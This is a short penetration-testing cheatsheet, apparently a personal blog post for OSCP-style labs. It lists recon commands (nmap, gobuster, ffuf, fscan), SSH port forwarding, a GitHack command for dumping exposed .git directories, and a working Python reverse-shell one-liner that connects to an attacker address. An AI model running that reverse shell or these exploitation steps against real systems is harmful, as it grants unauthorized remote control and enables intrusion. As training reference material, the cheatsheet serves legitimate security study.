 ```yaml
---
title : "Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-23 11:33:00 +0800
categories: [Cheatsheet]
tags: [nmap,gobuster,ffuf,jadx,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### Nmap

```console
nmap -sV -sC --min-rate=1000 -p- <IP> -o nmap
```

### Gobuster



```console
Dirsearch
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS>
Break status code
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS> -b <BREAK_STATUSCODE>
```

### ffuf

```console
Subdomain search
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H “Host: FUZZ.site.com” -u http://site.com
```

### fscan
Scan host in network
Shadow1ng/fscan (github.com)
```console
./fscan -h 172.0.0.1/24
```

### Zeek with pcap
```console
zeek -Cr 0.pcap
```
However password in zeek is <hidden> to config for zeek to show in [Ippsec-Cap](https://www.youtube.com/watch?v=O_z6o2xuvlw)

### SSH Port Forwarding

```console
ssh -L <PORT IN LOCAL>:<IP>:<PORT IN SERVER> username@<IP SERVER>
```

# Exploit

### Python reverse shell

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
### Stable reverse shell
```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### GitHack - Exploit ```.git``` 
 lijiejie/GitHack: Khai thác tiết lộ thư mục `.git` (github.com)
```console
Githack
python GitHack.py http://site.htb/.git/
```


# Privilege Escalation 

### Check sudo file permissions

```console
sudo -l
```

# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
